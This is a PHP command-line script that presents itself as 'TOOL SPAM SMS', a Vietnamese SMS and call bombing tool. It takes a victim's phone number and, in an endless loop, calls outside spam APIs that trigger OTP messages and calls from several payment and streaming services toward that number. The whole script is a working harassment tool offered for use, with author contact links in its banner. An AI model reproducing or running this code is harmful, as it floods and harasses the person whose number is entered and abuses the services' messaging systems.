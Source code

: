 error_reporting(0);
session_start();
date_default_timezone_set('Asia/Ho_Chi_Minh');
/***[ Color ]***/
$xnhac = "\033[1;36m";
$do = "\033[1;31m";
$luc = "\033[1;32m";
$vang = "\033[1;33m";
$xduong = "\033[1;34m";
$hong = "\033[1;35m";
$trang = "\033[1;37m";
/***[ USERAGENT ]***/
$_SESSION['useragent'] = 'Mozilla/5.0 (Linux; Android 10; CPH1819) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36';
/***[ Đánh Dấu Bản Quyền ]***/
$thanh_dep = $do."[" . $trang . "=.=" . $do . "] ".$trang."=> ";
$thanh_xau = $do."[" . $trang . "=.=" . $do . "] ";
/***[ Delay ]***/
if (strtoupper(substr(PHP_OS, 0, 3)) === 'LIN') {
    $_SESSION['load'] = 2000;
} else {
    $_SESSION['load'] = 0;
}
/***[ Banner ]***/
$banner = "
\033[1;31m████████╗████████╗ ██████╗  ██████╗ ██╗     
\033[1;37m╚══██╔══╝╚══██╔══╝██╔═══██╗██╔═══██╗██║     
\033[1;31m   ██║█████╗██║   ██║   ██║██║   ██║██║     
\033[1;37m   ██║╚════╝██║   ██║   ██║██║   ██║██║     
\033[1;31m   ██║      ██║   ╚██████╔╝╚██████╔╝███████╗
\033[1;37m   ╚═╝      ╚═╝    ╚═════╝  ╚═════╝ ╚══════╝                                           
\033[1;31m────────────────────────────────────────────────────────────
\033[1;31m[\033[1;37m-_-\033[1;31m] \033[1;37m=> \033[1;33mTOOL SPAM SMS
\033[1;31m[\033[1;37m-_-\033[1;31m] \033[1;37m=> \033[1;35mADMIN: \033[1;36mNguyễn Anh Trường
\033[1;31m[\033[1;37m-_-\033[1;31m] \033[1;37m=> \033[1;36mFB: \033[1;31mTruong14tuoiroi
\033[1;31m[\033[1;37m-_-\033[1;31m] \033[1;37m=> \033[1;32mZALO SUPPORT: \033[1;37mhttps://zalo.me/0375634851
\033[1;31m[\033[1;37m-_-\033[1;31m] \033[1;37m=> \033[1;34mYOUTUBE: \033[1;37mhttps://www.youtube.com/@truongtool4258
\033[1;31m────────────────────────────────────────────────────────────\n";
@system("clear");
/***[ Clear + Thông Số Admin ]***/
if (strtoupper(substr(PHP_OS, 0, 3)) === 'LIN') { 
    @system('clear'); 
} else { 
    @system('cls'); 
}
for($i = 0; $i < strlen($banner); $i++){echo $banner[$i];usleep(500);}
echo $thanh_dep.$luc."Nhập Số Điện Thoại: $trang";
$sdt = trim(fgets(STDIN));
$dem = 0;
echo"\033[1;31m────────────────────────────────────────────────────────────\n";
sleep(3);
while(true) {
        $momo = json_decode(file_get_contents("https://vuabuff.com/api/sp4m/momo.php?sdt=".$sdt), true);
        $dem++;
        echo "\033[1;34m[\033[1;33m".$dem."\033[1;34m] \e[1;32m⌠\e[1;33mAn Orin\e[1;32m⌡\033[1;91m ● \033[1;36m".date("H:i:s")."\033[1;31m ● \033[1;".rand(31,37)."m"." Gửi Thành Công \033[1;31m ● \033[1;37m".$sdt."\n";
        if ($check->status == "success") {
}
$tv360 = json_decode(file_get_contents("https://vuabuff.com/api/sp4m/tv360.php?phone=".$sdt), true)["errorCode"];
        $dem++;
        echo "\033[1;34m[\033[1;33m".$dem."\033[1;34m] \e[1;32m⌠\e[1;33mAn Orin\e[1;32m⌡\033[1;91m ● \033[1;36m".date("H:i:s")."\033[1;31m ● \033[1;".rand(31,37)."m"." Gửi Thành Công \033[1;31m ● \033[1;37m".$sdt."\n";
        if ($check->status == "success") {
}
$calldv = json_decode(file_get_contents("https://hangthaigiasi.com/api/call.php?sdt=".$sdt), true);
        $dem++;
        echo "\033[1;34m[\033[1;33m".$dem."\033[1;34m] \e[1;32m⌠\e[1;33mAn Orin\e[1;32m⌡\033[1;91m ● \033[1;36m".date("H:i:s")."\033[1;31m ● \033[1;".rand(31,37)."m"." Gửi Thành Công \033[1;31m ● \033[1;37m".$sdt."\n";
        if ($check->status == "success") {
}
$viettelpay = json_decode(file_get_contents("https://vuabuff.com/api/sp4m/vtmoney.php?sdt=".$sdt), true);
        $dem++;
        echo "\033[1;34m[\033[1;33m".$dem."\033[1;34m] \e[1;32m⌠\e[1;33mAn Orin\e[1;32m⌡\033[1;91m ● \033[1;36m".date("H:i:s")."\033[1;31m ● \033[1;".rand(31,37)."m"." Gửi Thành Công \033[1;31m ● \033[1;37m".$sdt."\n";
        if ($check->status == "success") {
}
        delay(30);
}
function delay ($delay){
        for($tt = $delay ;$tt>= 0;$tt--){
                print "\r\033[1;33m   Vui Lòng Đợi \033[1;31m ~>       \033[1;32m LO      \033[1;31m | $tt | "; usleep(150000);
print "\r\033[1;31m   Vui Lòng Đợi \033[0;33m   ~>     \033[0;37m LOA     \033[0;31m | $tt | "; usleep(150000);
print "\r\033[1;32m   Vui Lòng Đợi \033[0;33m     ~>   \033[0;37m LOAD    \033[0;31m | $tt | "; usleep(150000);
print "\r\033[1;34m   Vui Lòng Đợi \033[0;33m       ~> \033[0;37m LOADI   \033[0;31m | $tt | "; usleep(150000);
print "\r\033[1;35m   Vui Lòng Đợi \033[0;33m        ~>\033[0;37m LOADIN  \033[0;31m | $tt | "; usleep(150000);  
print "\r\033[1;35m   Vui Lòng Đợi \033[0;33m        ~>\033[0;37m LOADING \033[0;31m | $tt | "; usleep(150000);
print "\r\033[1;35m   Vui Lòng Đợi \033[0;33m        ~>\033[0;37m LOADING.\033[0;31m | $tt | ";usleep(150000);
print "\r                                          \r";
}
}
function chay($t = 23) { for ($x = 0; $x <= $t; $x++) {echo "\033[1;37m=\033[1;31m●";usleep(5000); } echo"\n";}
        if (strtoupper(substr(PHP_OS, 0, 3)) === 'LIN') { @system('clear'); } else { @system('cls'); }
        for($i = 0; $i < strlen($banner); $i++){echo $banner[$i];usleep($_SESSION['load']);}
        chay(35);
